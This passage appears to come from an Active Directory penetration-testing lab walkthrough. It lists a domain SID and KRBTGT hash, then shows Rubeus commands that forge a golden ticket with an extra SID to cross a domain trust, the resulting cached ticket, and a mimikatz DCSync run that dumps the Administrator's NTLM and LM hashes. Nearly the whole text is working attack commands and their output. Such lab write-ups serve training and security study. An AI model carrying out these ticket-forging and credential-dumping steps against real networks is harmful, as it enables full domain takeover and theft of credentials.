 - **Current Domain SID**: `S-1-5-21-1407615112-106284543-3058975305`
- **KRBTGT Hash**: `6f639a6054a3d9852409e9ad7e41893b`
- **Group SID**: `S-1-5-21-990245489-431684941-3923950027-1112`

```
*Evil-WinRM* PS C:\Users\Freak\Desktop> .\Rubeus.exe golden /rc4:6f639a6054a3d9852409e9ad7e41893b /domain:inlanefreight.ad /sid:S-1-5-21-1407615112-106284543-3058975305 /sids:S-1-5-21-990245489-431684941-392
3950027-1112 /user:Administrator /ptt

*Evil-WinRM* PS C:\Users\Freak\Desktop> klist

Current LogonId is 0:0x1abf4e

Cached Tickets: (1)

#0>     Client: Administrator @ INLANEFREIGHT.AD
        Server: krbtgt/inlanefreight.ad @ INLANEFREIGHT.AD
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 9/13/2024 21:27:11 (local)
        End Time:   9/14/2024 7:27:11 (local)
        Renew Time: 9/20/2024 21:27:11 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

PS C:\Users\Freak\Desktop> .\mimikatz.exe "lsadump::dcsync /domain:apexcargo.ad /user:Administrator"                                                                                                                 
SAM Username         : Administrator                                                                                              
Account Type         : 30000000 ( USER_OBJECT )                                                                                   
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )                                                             
Account expiration   :                                                                                                            
Password last change : 4/6/2024 5:40:03 PM                                                                                        
Object Security ID   : S-1-5-21-990245489-431684941-3923950027-500                                                                
Object Relative ID   : 500                                                                                                                                                                                                                                          Credentials:                                                                                                                        
Hash NTLM: 2cd9f13c4aa3b468308525a93696e5a1                                                                                         
ntlm- 0: 2cd9f13c4aa3b468308525a93696e5a1                                                                                         
ntlm- 1: 64cbb76dcafe2e977794f6251f8231fb                                                                                         
lm  - 0: 75e0a5932306d3a73e6d77db9b10f853                                                                                     
```
